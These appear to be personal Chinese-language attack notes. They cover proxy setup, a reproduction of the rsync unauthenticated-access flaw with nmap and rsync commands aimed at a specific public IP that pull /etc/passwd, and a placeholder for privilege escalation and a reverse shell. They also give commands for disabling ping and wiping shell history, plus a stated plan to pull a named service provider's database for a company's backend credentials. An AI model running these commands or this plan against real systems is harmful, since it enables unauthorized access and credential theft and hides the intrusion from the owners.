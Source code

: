 ## 目的

自己创建一个机器，进行攻击

https://zhuanlan.zhihu.com/p/389200456

linux 配置海外 代理

https://xie.infoq.cn/article/7d47c548c916e8ceef55ee596

安装 trojan 和 proxychains 

复现：“rsync未授权访问漏洞”
地址： https://github.com/vulhub/vulhub/

环境搭建： https://github.com/vulhub/vulhub/

复现： https://blog.csdn.net/weixin_44110913/article/details/109545122

nmap -p 873  175.178.234.145
rsync   175.178.234.145::
rsync rsync://175.178.234.145/src
<!--  下载 -->
rsync -av rsync://175.178.234.145/src/etc/passwd ./
<!--  提权、反弹shell -->

linux 禁止ping

```text
1. 临时允许PING操作的命令为：
#echo 0 >/proc/sys/net/ipv4/icmp_echo_ignore_all
2. 永久允许PING配置方法
/etc/sysctl.conf中增加一行
net.ipv4.icmp_echo_ignore_all=0
sysctl -p
```

查看一下linux服务器经常登录的ip地址
在查询一下美洽服务商 的数据库信息，拉去下来，搜索到对应的 企业id的后台 认证信息

### 清楚 历史记录

先将 history 信息导出到 history_last.md

ln -sf /dev/null ~/.bash_history && history -c && exit
echo "unset HISTFILE" >> /etc/profile

### 显示最近用户登录信息

last -10

将这些信息导出到  last_user.md


